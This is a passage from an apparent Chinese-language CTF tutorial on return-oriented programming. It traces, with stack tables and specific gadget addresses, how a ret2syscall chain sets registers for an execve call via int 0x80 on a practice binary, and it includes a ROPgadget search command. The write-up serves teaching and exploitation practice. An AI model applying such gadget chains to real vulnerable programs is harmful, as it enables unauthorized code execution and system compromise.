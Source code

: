 - 程序执行`ret`，`EIP`跳转到`pop edx; ret`，`ESP`自动上移一位，程序将要进行`pop edx`，因此栈上填入`0`

| EIP  | .text                 | stack      | ESP  |
| ---- | --------------------- | ---------- | ---- |
|      |                       | 0          | ←    |
| →    | pop edx; ret          | 0x0806eb6a |      |
|      |                       | 0x080be408 |      |
|      |                       | 0          |      |
|      | pop ecx; pop ebx; ret | 0x0806eb91 |      |
|      |                       | 0xb        |      |
|      | pop eax; ret          | 0x080bb196 |      |

- 程序执行`pop edx`，`0`被`pop`弹入`edx`，`ESP`向高位移动一位，程序将要进行`ret`，因此填入`int 0x80`的地址

寻找`int 0x80`的地址

```sh
ROPgadget --binary rop --only "int"
```

| EIP  | .text                 | stack      | ESP  |
| ---- | --------------------- | ---------- | ---- |
|      | int 0x80              | 0x08049421 | ←    |
|      |                       | 0          |      |
| →    | pop edx; ret          | 0x0806eb6a |      |
|      |                       | 0x080be408 |      |
|      |                       | 0          |      |
|      | pop ecx; pop ebx; ret | 0x0806eb91 |      |
|      |                       | 0xb        |      |
|      | pop eax; ret          | 0x080bb196 |      |

- 程序执行`ret`，`EIP`跳转到`int 0x80`，程序将要执行`int 0x80`

| EIP  | .text                 | stack      | ESP  |
| ---- | --------------------- | ---------- | ---- |
|      | int 0x80              | 0x08049421 | ←    |
|      |                       | 0          |      |
| →    | pop edx; ret          | 0x0806eb6a |      |
|      |                       | 0x080be408 |      |
|      |                       | 0          |      |
|      | pop ecx; pop ebx; ret | 0x0806eb91 |      |
|      |                       | 0xb        |      |
|      | pop eax; ret          | 0x080bb196 |      |
